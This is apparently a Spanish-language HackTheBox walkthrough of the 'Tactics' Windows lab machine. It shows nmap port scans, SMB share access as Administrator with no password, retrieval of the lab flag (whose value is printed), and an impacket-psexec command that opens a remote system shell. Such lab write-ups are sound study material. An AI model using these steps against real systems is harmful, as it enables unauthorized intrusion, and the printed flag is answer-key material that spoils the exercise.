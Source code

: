 # Tactics

Plataforma: HackTheBox
OS: Windows
Level: Very Easy
Status: Done
Complete: Yes
Created time: 10 de enero de 2025 20:23
IP: 10.129.232.71

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.232.71 -oG allports

PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p135,139,445 -sCV 10.129.232.71 -oN targeted

PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -15s
| smb2-time: 
|   date: 2025-01-10T19:30:56
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

- **Identificación de vulnerabilidades**
    - 135/tcp open  msrpc         Microsoft Windows RPC
    - 139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
    - 445/tcp open  microsoft-ds?

- **Enumeracion 445**
    
    
    Probamos a listar recursos como administrador
    
    ```sql
    smbclient -L 10.129.23.24 -U Administrator
     Sharename       Type      Comment
    	---------       ----      -------
    	ADMIN$          Disk      Remote Admin
    	C$              Disk      Default share
    	IPC$            IPC       Remote IPC
    ```
    
    Nos conectamos al recurso C$ sin password
    
    ```sql
    ❯ smbclient //10.129.23.24/C$ -U Administrator
    ```
    
    Obtenemos la flag:
    
    ```sql
    smb: \users\administrator\Desktop\> ls
      .                                  DR        0  Thu Apr 22 09:16:03 2021
      ..                                 DR        0  Thu Apr 22 09:16:03 2021
      desktop.ini                       AHS      282  Wed Apr 21 17:23:32 2021
      flag.txt                            A       32  Fri Apr 23 11:39:00 2021
    
    smb: \users\administrator\Desktop\> get flag.txt
    ```
    
    ```sql
    cat flag.txt
    ───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
           │ File: flag.txt
    ───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       1   │ f751c19eda8f61ce81827e6930a1f40c
    ```
    
    Podriamos haber usado impacket para conseguir una shell:
    
    ```sql
    ❯ impacket-psexec TACTICS/Administrator@10.129.23.24
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    Password:
    [*] Requesting shares on 10.129.23.24.....
    [*] Found writable share ADMIN$
    [*] Uploading file KSMlzWRw.exe
    [*] Opening SVCManager on 10.129.23.24.....
    [*] Creating service XfAT on 10.129.23.24.....
    [*] Starting service XfAT.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> ls
    ```
    

## Conclusión

<aside>
💡 Maquina sin explotación ni escalada de privilegios. Tener presente usar siempre credenciales por defecto.

</aside>